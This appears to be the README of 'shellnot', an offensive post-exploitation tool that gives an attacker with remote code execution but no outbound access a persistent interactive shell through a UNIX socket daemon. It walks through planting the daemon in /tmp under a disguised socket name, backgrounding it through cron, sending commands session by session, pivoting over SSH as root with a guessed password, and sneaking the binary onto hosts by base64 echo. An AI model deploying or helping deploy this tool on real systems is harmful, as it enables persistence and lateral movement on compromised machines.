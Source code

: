 # shellnot

## What is this, and when do I use it?

`shellnot` is a UNIX socket-based daemon for situations where you have **RCE** but no egress - you can execute code, but you can’t exfiltrate or pop a reverse shell.

It gives you a **persistent, interactive shell** by tunneling commands through a local client to a background daemon via `/tmp` sockets. You’re not getting a bind shell or reverse shell; you’re getting a best-effort pseudo-shell that lives on the box, keeps context, and answers only when you ask.

Use it when:

- You have RCE but no shell.
- You can write to disk and run local binaries.
- Outbound connections are blocked.
- You want stateful interaction (e.g., cd, ssh, history).
- You're done injecting chains of single-use commands.

This is built for low-priv, egress-restricted, post-exploitation environments where most payloads are fire-and-forget. Drop the daemon once, then talk to it via local execution. That’s it.

## How it works

There are two parts:

1. **Daemon (`--daemon`)**  
   This runs locally and manages multiple persistent pseudo-terminal (PTY) shell sessions, each tied to a session ID. It listens over a UNIX socket (`/tmp/koreanfont.sock` by default).

2. **Client**  
   You trigger this over your RCE context. It writes to the socket and optionally reads back:
   - `--input "<command>"` → sends a command to a session
   - `--output` → reads the output buffer from that session

The client can be executed repeatedly from your RCE to simulate an interactive shell, one command at a time. The daemon keeps session state, history, and PTY context.

---

## Example usage

Once the binary is on the box, start the daemon:
```sh
./shellnot --daemon & 
```
*Or use any means to background the process like  cron, etc...*

Continuing the RCE context, send a command to session 1:

```sh
./shellnot --session 1 --input "ssh root@1.domain.com"
```

Fetch the output from session 1:

```sh
./shellnot --session 1 --output
```

Full flow:

```sh
./shellnot --daemon &
./shellnot --session 1 --input "ssh root@2.domain.com"
./shellnot --session 1 --output
ssh root@2.domain.com

root@2.domain.com”s password:
./shellnot --session 1 --input "toor"
./shellnot --session 1 --output

Last login: Sat May 24 16:45:40 2025 from 10.0.0.2
[root@localhost ~]$ ⏎ 
./shellnot --session 1 --input "id"
./shellnot --session 1 --output
id
uid=1001(root) gid=1001(root) groups=1001(root),970(docker),998(wheel)
[risk@localhost ~]$
[risk@localhost ~]$ ⏎ 
./shellnot --session 1 --input "exit"
./shellnot --session 1 --output
exit
logout
Connection to 2.domain.com closed.
$ ⏎
```
```
ps aux | grep shellnot
mcrn        5770  0.0  0.0   2772   956 pts/0    S    22:33   0:00 ./shellnot --daemon
```

# Caveats
- Means to background the process, or at least two RCE instances.
- Might require to compile the binary on the box itself.
- Only works on UNIX-like systems with forkpty() support.

---

*Ignore the warning, made it to be as small as possible for base64 transfer over `echo` with RCE.*
```sh
gcc shellnot.c -o shellnot
```
